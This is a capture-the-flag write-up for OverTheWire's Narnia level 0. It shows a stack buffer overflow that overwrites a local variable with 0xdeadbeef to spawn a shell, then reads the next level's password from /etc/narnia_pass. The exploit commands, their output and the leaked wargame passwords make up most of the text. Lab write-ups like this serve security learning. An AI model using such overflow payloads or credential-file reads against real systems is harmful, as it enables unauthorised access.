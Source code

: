 # Solution for Narnia 0 
For the initial login, the credentials are
```text
narnia0:narnia0
```
Once we see the C code for the level, we need to change one of the local variables to the value 0xdeadbeef, and then it will pop a shell.
Pretty easy, as we know the buffer is of size 20. Let's do our proof of concept and then set the value of the local variable to what we want to.

## Proof of concept
```text
narnia0@narnia:/narnia$ python -c 'print "A"*20 + "B"*4'
AAAAAAAAAAAAAAAAAAAABBBB

narnia0@narnia:/narnia$ ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: AAAAAAAAAAAAAAAAAAAABBBB
buf: AAAAAAAAAAAAAAAAAAAABBBB
val: 0x42424242
WAY OFF!!!!
```

Perfect, we have changed the value of the local variable from AAAA to BBBB. Now let's set it to 0xdeadbeef, and we take some help from the internet to see how we can send the bytes to the payload as we aren't passing it as arguments

```text
narnia0@narnia:/narnia$ (python -c 'print "A"*20 + "\xef\xbe\xad\xde"';cat;) | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ�
val: 0xdeadbeef
ls
narnia0  narnia0.c  narnia1  narnia1.c  narnia2  narnia2.c  narnia3  narnia3.c  narnia4  narnia4.c  narnia5  narnia5.c  narnia6  narnia6.c  narnia7  narnia7.c  narnia8  narnia8.c
cat /etc/narnia_pass/narnia1    
efeidiedae
```

The password for narnia1 is 
```text
efeidiedae
```


